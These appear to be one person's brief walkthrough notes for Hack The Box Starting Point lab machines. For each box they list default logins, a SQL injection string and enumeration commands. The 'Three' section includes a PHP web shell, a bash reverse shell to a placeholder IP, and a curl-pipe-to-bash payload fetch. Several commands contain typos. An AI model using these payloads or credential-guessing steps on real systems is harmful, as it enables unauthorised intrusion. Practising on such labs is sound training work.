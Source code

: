 # TIER 0

### Meow  
sometimes an admin will stand up a quick test box and never get around to any type of hardening small set of default username might do the trick:  root,admin,administrator,guest,apache,oracle  
trying: blank/no password, "password", and username as passwords  

telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt  
gobuster vhost -w ./subdomains-top1million5000.txt -u http://thetoppers.htb  
yields "s3".thetopppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  
echo '<?php system($_GET["cmd"]); ?>' > shell.php  
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb  
http://thetoppers.htb/shell.php?cmd=id  
create shell.sh  
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000  
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash  

### Ignition
http://ignition.htb/admin
admin:qwerty123

### Bike
SSTI send {{7+7}}. Use BURP repeater to have "Handlebars" provide data  

### Pennyworth
Jenkins/Groovy script for a reverse shell

### Tactics
SMB share, retrieve flag.txt  

# TIER 2
### Oopsie
[HTB write up](/writeups/oopsie.pdf)  
php upload a reverse shell, SUID escalation due to group membership

